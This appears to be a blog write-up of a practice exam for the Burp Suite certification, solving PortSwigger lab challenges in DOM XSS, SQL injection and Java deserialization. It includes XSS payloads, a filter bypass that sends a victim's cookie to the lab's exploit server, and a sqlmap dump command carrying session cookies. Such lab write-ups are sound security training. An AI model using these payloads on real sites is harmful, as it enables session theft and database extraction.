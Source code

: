 ```yaml
---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/burp/burp_header.jpeg
  teaser: /assets/images/burp/burp_teaser.png
  
---
```



### **EXAM PREP**

### **1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](/assets/images/burp/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](/assets/images/burp/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](/assets/images/burp/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

### **2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](/assets/images/burp/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](/assets/images/burp/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](/assets/images/burp/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

### **3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](/assets/images/burp/Launch_Scan.png)

![Burp Scan.png](/assets/images/burp/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](/assets/images/burp/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](/assets/images/burp/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
